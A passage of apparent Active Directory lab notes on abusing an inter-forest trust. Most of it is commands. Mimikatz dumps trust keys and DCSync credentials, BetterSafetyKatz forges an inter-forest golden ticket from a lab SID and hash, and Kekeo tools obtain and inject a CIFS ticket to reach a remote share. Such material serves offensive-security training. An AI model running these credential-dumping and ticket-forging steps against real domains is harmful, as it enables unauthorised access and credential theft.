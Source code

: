 ### Trust Flow Across Forest

#### Across Forest using Trust Tickets

Once again, we require the trust key for the inter-forest trust:

~~~
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
~~~
Or
~~~
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
~~~
Or
~~~
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
~~~

An inter-forest TGT can be forged:

~~~
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit"
~~~

**Abuse with Kekeo**
Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket:

~~~
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
~~~

Use the TGS to access the targeted service:

~~~
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
~~~


Tickets for other services (like **HOST** and **RPCSS for WMI**, **HTTP for PowerShell Remoting** and **WinRM**) can be created as well

 